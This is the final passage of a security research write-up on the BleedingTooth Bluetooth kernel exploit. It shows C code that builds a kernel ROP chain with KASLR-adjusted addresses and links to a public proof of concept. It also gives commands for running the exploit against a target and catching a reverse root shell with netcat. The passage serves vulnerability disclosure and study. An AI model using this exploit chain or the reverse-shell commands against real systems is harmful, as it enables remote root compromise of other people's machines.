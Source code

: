 Subtracting the slide from the two addresses from before yields:

```c
#define RUN_CMD 0xffffffff810ce470
#define DO_TASK_DEAD 0xffffffff810dc260
```

Finally, we can find gadgets for `pop rax ; ret`, `pop rdi ; ret` and `jmp rax` with ROPgadget and then we can construct the kernel ROP chain according to this example:

```c
static void build_krop_chain(uint64_t *rop, uint64_t cmd_addr) {
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + RUN_CMD;
  *rop++ = kaslr_offset + POP_RDI_RET;
  *rop++ = cmd_addr;
  *rop++ = kaslr_offset + JMP_RAX;
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + DO_TASK_DEAD;
  *rop++ = kaslr_offset + JMP_RAX;
}
```

This ROP chain should be placed at offset 0x40 within the fake `struct bpf_prog` object, and `cmd_addr` should point to the bash command planted in kernel memory. With everything at the right place, we can finally retrieve a root shell from the victim.

## Proof-Of-Concept

The Proof-Of-Concept is available at [https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth](https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth).

Compile it using:

```bash
$ gcc -o exploit exploit.c -lbluetooth
```

and execute it as:

```bash
$ sudo ./exploit target_mac source_ip source_port
```

In another terminal, run:

```bash
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

If successful, a calc can be spawned with:

```bash
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```

